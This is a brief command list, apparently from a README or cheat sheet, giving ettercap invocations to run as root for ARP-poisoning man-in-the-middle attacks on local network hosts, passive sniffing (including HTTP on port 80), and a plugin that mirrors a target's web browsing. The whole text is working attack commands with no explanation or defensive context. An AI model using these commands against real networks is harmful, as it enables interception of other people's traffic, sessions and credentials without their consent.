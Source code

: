 Run as root or sudo.

`ettercap -TQM arp:remote -i eth0 /192.168.0.3/ // -P remote_browser`

`ettercap -Tzq`

`ettercap -Tzq //80`

`ettercap -T -M arp:remote /192.168.0.1/ /192.168.0.2-20/`

`ettercap -Tq -M arp:remote,oneway /192.168.0.16/ //`
